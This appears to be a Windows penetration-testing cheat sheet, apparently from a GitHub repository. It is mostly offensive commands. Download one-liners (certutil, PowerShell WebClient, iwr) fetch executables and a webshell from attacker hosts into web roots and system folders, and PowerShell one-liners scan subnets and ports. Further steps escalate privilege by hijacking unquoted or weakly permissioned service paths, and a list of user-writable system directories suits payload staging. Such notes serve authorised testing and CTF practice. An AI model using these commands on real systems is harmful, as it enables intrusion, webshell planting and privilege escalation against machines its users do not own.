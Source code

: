   # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://172.16.1.100:8001/FILE.exe OUTFILE.exe
or
powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"
or
powershell iwr -uri 'http://10.10.16.111/FILE.exe' -Outfile C:\\Windows\\Tasks\\FILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```

Get open/connected ports
```
netstat -aon
```

# Scans
Subnet ping scan (about 5 seconds per host)
```
1..20 | % {"10.10.123.$($_): $(Test-Connection -count 1 -comp 10.10.123.$($_) -quiet)"}
```
Port scan single host ([other port scans](https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585))
```
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect(“192.168.1.1”,$_)) “Port $_ is open!”} 2>$null
```

# Exploiting Windows Services
Listing services for weak perms and unquoted service paths ([link](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/))
```
wmic service get name,startname,pathname
```
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
```
```
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
```
```
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


## Tips
1. https://github.com/ankh2054/windows-pentest

__Dirs writable by default by normal users:__
```
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```
